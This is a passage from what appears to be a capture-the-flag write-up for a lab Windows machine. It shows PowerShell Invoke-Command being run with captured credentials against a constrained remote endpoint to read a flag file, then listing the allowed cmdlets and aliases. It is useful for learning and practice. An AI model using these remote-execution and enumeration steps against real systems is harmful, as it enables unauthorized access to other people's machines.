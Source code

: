 
This is enough to read `user.txt`:

    
    
    PS C:\Utils> Invoke-Command -ScriptBlock { cat C:\users\imonks\desktop\user.txt } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    9876b84d3f317ff5c0893e18477e1c13
    

## Shell as jmorgan on Acute-PC01

### Enumeration

#### Limited Shell

To enumerate further, first I need to understand what commands I have access
to in this configuration. `Get-Command` will tell me that:

    
    
    PS C:\Utils> Invoke-Command -ScriptBlock { Get-Command } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    
    CommandType     Name                                               Version    Source               PSComputerName      
    -----------     ----                                               -------    ------               --------------      
    Cmdlet          Get-Alias                                          3.1.0.0    Microsoft.PowerSh... ATSSERVER           
    Cmdlet          Get-ChildItem                                      3.1.0.0    Microsoft.PowerSh... ATSSERVER           
    Cmdlet          Get-Command                                        3.0.0.0    Microsoft.PowerSh... ATSSERVER           
    Cmdlet          Get-Content                                        3.1.0.0    Microsoft.PowerSh... ATSSERVER           
    Cmdlet          Get-Location                                       3.1.0.0    Microsoft.PowerSh... ATSSERVER           
    Cmdlet          Set-Content                                        3.1.0.0    Microsoft.PowerSh... ATSSERVER           
    Cmdlet          Set-Location                                       3.1.0.0    Microsoft.PowerSh... ATSSERVER           
    Cmdlet          Write-Output                                       3.1.0.0    Microsoft.PowerSh... ATSSERVER
    

I’ll also look at `Get-Alias` to see what are set:

    
    
    PS C:\Utils> Invoke-Command -ScriptBlock { Get-Alias } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    
    CommandType     Name                                               Version    Source               PSComputerName      
    -----------     ----                                               -------    ------               --------------      
    Alias           cat -> Get-Content                                                                 ATSSERVER           
    Alias           cd -> Set-Location                                                                 ATSSERVER           
    Alias           echo -> Write-Output                                                               ATSSERVER           
    Alias           ls -> Get-ChildItem                                                                ATSSERVER           
    Alias           pwd -> Get-Location                                                                ATSSERVER           
    Alias           sc -> Set-Content                                                                  ATSSERVER           